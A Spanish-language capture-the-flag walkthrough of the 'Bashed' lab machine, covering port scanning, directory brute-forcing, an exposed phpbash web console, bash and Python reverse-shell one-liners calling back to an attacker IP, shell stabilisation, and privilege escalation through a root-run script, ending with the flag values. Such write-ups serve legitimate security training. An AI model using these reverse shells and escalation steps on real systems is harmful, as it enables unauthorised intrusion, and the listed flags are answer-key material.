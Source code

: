![[Pasted image 20250705153021.png]](bashed-images/20250705153021.png)

# Nmap

>iniciamos con un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.9 -oN scanner
```

![[20250705135441.png]](bashed-images/20250705135441.png)

>Continuamos con un escáner con scripts básicos para sacar servicios y versiones

```bash
nmap -p80 -sCV 10.129.197.9 -oN targeted
```

![[20250705135536.png]](bashed-images/20250705135536.png)

# Puerto 80

>revisamos que hay en la pagina web que corre por el puerto 80

![[20250705135627.png]](bashed-images/20250705135627.png)

>revisamos la web pero a primera vista no hay gran cosa 

![[20250705135759.png]](bashed-images/20250705135759.png)

lo que si que vemos en la pagina web es que hay algun tipo de consola interactiva en la URL IP/uploads/phpbash.php

![[ 20250705135903.png]](bashed-images/20250705135903.png)

>pero al acceder no funciona la pagina por lo que podemos entender que si aun existe ya no esta en el directorio uploads

![[ 20250705135956.png]](bashed-images/20250705135956.png)

>Nos indican un repositorio github donde parece que explican el funcionamiento de esta herramienta y tenemos un usuario a la vista "Arrexel"


![[ 20250705140110.png]](bashed-images/20250705140110.png)

vemos que tiene dos programas que hacen lo mismo phpbash.php y phpbash.min.php que se encuentran en el  navegador


## Gobuster

>Utilizamos gobuster para buscar directorios en la pagina web

```bash
gobuster dir -u 10.129.197.9 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,py,sh -t 40
```

![[ 20250705140304.png]](bashed-images/20250705140304.png)

>Nos devuelve varios directorios y tras explorarlos un poco encontramos en dev lo siguiente:

![[ 20250705140342.png]](bashed-images/20250705140342.png)

>Hemos encontrado la consola interactiva

## phpbash.php

![[ 20250705140421.png]](bashed-images/20250705140421.png)

tratamos de mandar un ping a ver si la consola es capaz de interactuar con mi equipo

>Desde nuestra terminal nos ponemos en escucha de paquetes


```bash
tcpdump -i any icmp
```

![[20250705140711.png]](bashed-images/20250705140711.png)

y desde phpbash.php lanzamos el ping

```bash
ping -c 1 10.10.14.155
```

![[20250705140758.png]](bashed-images/20250705140758.png)

vemos que el paquete se tramita

![[20250705140816.png]](bashed-images/20250705140816.png)

y en  nuestra terminal recibimos la petición

por lo que es momento de tratar de enviar una shell


## Shell

>probamos a lanzar una shell con bash 

```bash
bash -c "bash -i &> /dev/tcp/192.168.1.175/1234 0>&1" 
```

mientras en nuestra terminal la esperamos con 

```bash
nc -nlvp 1234
```



![[20250705141401.png]](bashed-images/20250705141401.png)

>La shell parece mandarse pero no recibimos nada por el puerto en escucha


revisamos si tiene python instalado 

```bash
which python
```

![[20250705141439.png]](bashed-images/20250705141439.png)

>comprobamos que si lo tiene

probamos lanzar una shell con python hacia nuestro puerto en escucha

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.155",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![[20250705145256.png]](bashed-images/20250705145256.png)

>ahora si que tenemos la shell en nuestra terminal 

### Sanitizar la shell

> como sabemos que tiene python vamos a utilizarlo para sanitizar la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl + Z

```bash
stty raw -echo; fg
```

```bash
export TERM=xterm
```

```bash
stty rows 36 columns 140
```

>ahora si con una shell mas practica ya podemos trabajar

## Escalada de privilegios

>Utilizamos sudo -l y asi hacemos el primer reconocimiento

```bash
sudo -l
```

![[20250705145632.png]](bashed-images/20250705145632.png)

vemos que podemos usar el usuario scriptmanager sin contraseña

así que vamos a ver que podemos hacer con este usuario

>pivotamos al usuario scriptmanager

```bash
sudo -u scriptmanager /bin/bash -i
```

>Al explorar el directorio home encontramos el usuario arrexel el cual contiene la primera flag 

![[20250705145939.png]](bashed-images/20250705145939.png)

>seguimos explorando y vemos un archivo en la / raiz llamado scripts del cual somos propietarios con el usuario actual

![[20250705150044.png]](bashed-images/20250705150044.png)

![[20250705150103.png]](bashed-images/20250705150103.png)

>investigamos el archivo test.py

![[20250705150140.png]](bashed-images/20250705150140.png)


>vemos que genera un archivo .txt que como vimos en el directorio scripts el propietario es root por lo que suponemos que root es quien crea ese archivo

>Creamos un pequeño script de python para tratar de inyectar una shell que al ser creada por root esperemos que nos de esa shell con usuario root

![[20250705150402.png]](bashed-images/20250705150402.png)

>Nos ponemos en escucha para ver si recibimos la shell


```bash
nc -nlvp 6666
```

>lanzamos el script de python

```bash
python test.py
```

![[20250705151139.png]](bashed-images/20250705151139.png)

>Y ahi tenemos la shell como root

>vamos al directorio principal de root y ahi podemos ver la flag

![[20250705151252.png]](bashed-images/20250705151252.png)

# Flags

user.txt = 59f508119c6a8ff7a2f51be2dffccea1

root.txt = 7879c3fb5f18ec2c8e923829e742e83e
